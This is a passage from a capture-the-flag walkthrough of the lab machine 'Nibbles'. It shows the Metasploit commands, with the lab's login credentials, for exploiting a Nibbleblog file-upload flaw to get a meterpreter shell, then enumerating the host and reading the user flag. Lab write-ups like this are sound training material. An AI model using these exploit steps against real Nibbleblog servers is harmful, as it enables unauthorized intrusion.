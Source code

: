=======================================================

Return to your terminal window with msfconsole, or load it up again:

    use exploit/multi/http/nibbleblog_file_upload

    set USERNAME admin

    set PASSWORD nibbles

    set RHOSTS 10.10.10.75

    set TARGETURI /nibbleblog

    show options
    
![](/images/nibbles/16. msf_set.png)
![](/images/nibbles/16. msf_set_2.png)

All of our options look proper. Let's give this a try:

    run

![](/images/nibbles/17. run.png)

And we have a meterpreter shell!  If your exploit stalls at the “[+] Deleted image.php” step, do not worry. Just give it a moment and your meterpreter prompt should appear.

Now for some enum:

    getuid

    sysinfo

![](/images/nibbles/18. getuid_sysinfo.png)

We are user “nibbler” and this is a 64-bit Ubuntu Linux, 4.4.0-104-generic kernel machine. We need to privesc, but first let's drop into an actual shell on the box:

    shell
    
    pwd

![](/images/nibbles/19. shell.png)

We are low-privileged user “nibbler”, so let's start by going to our home folder:

    cd /home/nibbler

    ls -la

![](/images/nibbles/20. home.png)

Learning point: Here you can see LinEnum.sh and linuxprivchecker.py are in /home/nibbler/ which means others were working on the box and did not clean up after themselves. Please do not be that gal or guy...

We do see user.txt here so let's grab that flag:

    cat user.txt
